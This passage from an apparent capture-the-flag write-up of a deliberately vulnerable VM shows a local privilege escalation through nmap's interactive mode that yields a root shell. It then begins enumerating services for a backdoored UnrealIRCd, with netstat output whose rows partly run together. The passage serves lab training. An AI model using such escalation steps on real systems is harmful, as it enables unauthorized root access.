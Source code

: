 #### Shell

The second work works great here (note the `euid` of root):



    daemon@lame:/$ nmap --interactive

    Starting Nmap V. 4.53 ( http://insecure.org )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    sh-3.2# id
    uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)



### Backdoored UnrealIRCd

Edited to add: [\_r518](https://twitter.com/_r518) pointed out another
local privesc, UnrealIRCd. Given that this seems to be the
Metasploitable VM, there's probably even more, but I figured I'd add at
least this one.

#### Enumeration

If I run a `netstat` on the box to see listening services, there are a
bunch, but 6697 jumps out as IRC over SSL:



    daemon@lame:/tmp$ netstat -tnlp                                                                                                                     
    (Not all processes could be identified, non-owned process info                                                                                      
     will not be shown, you would have to be root to see it all.)                                                                                       
    Active Internet connections (only servers)                                                                                                          Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                    tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:44007           0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:55758           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      -                                
    tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      -                                
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:40471           0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                                                                   